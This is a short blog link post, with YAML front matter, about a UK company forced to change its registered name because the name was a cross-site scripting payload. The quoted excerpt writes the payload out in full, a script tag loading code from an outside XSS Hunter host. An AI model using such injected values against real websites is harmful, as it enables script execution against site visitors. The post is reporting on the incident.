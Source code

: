 ```yaml
---
layout: post
type: link
date: 2020-11-07 22:11:20 GMT
title: "Company forced to change name that could be used to hack websites"
link: https://www.theguardian.com/uk-news/2020/nov/06/companies-house-forces-business-name-change-to-prevent-security-risk
permalink: /post/634165218297233408/company-forced-to-change-name-that-could-be-used
redirect_from: 
  - /post/634165218297233408/company-forced-to-change-name-that-could-be-used
categories:
- security
- technology
- cross-site scripting
---
```

<blockquote>The original name of the company was &quot;&quot;&gt;&lt;SCRIPT SRC=HTTPS://MJT.XSS.HT&gt; LTD&quot;. By beginning the name with a quotation mark and chevron, any site which failed to properly handle the HTML code would have mistakenly thought the company name was blank, and then loaded and executed a script from the site XSS Hunter, which helps developers find cross-site scripting errors.</blockquote>